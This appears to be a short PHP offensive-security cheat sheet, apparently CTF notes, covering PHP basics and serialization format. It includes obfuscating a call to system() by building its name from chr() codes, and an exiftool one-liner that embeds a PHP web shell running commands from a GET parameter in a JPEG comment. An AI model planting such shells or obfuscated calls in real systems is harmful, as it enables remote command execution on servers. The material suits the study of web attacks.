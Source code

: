 
> [!NOTE] Tips and Tricks
> - `PHP` is case insensitive when calling defined keywords such as `class`
> - `PHP` is case sensitive when calling variables
> - Use `Object->property` to access a property
> - Use `Object::method()` to access a method

# Build functions from strings

```php
$A = chr(0x73); // s
$B = chr(0x79); // y
$X = chr(0x74); // t
$D = chr(0x65); // e
$E = chr(0x6d); // m

$hook = $A.$B.$A.$X.$D.$E; // system
echo $hook("ls"); // call the system function
```

# Polyglot `.jpg`

> Hide PHP code in comments

```bash
exiftool -Comment='<?php system($_GET['cmd']); ?>' pic.jpg
```

# Serialisation / Deserialization


> [!NOTE] unserialize() method
> The `serialize()` and `unserialize()` methods are used to serialize and unserialize a PHP object.
> - `serialize($customObject)` calls its `__sleep()` method
> - `unserialize($customObject)` calls its `__wakeup()` method
> - When dealing with objects, their property names will become `CustomClassNamepropertyname` (i.e. it concatenates the class name with the property name)
> - You should also check the `Phar://` wrapper

Serialized object : `'a:2:{s:5:"login";s:5:"guest";s:8:"password";s:4:"pass";}'`

In the previous serialized object, we can se that there are multiple items.
- Each items is structures as `type:length:value;` (the first item type is `a` which stands for `array` of length 2 and its value is the content between brackets)
- In an `key => value` array, `key` and `value` are represented as items separated with a semicolon.

So the previous array is 
```php
array (
	"login" => "guest",
	"password" => "pass"
)
```
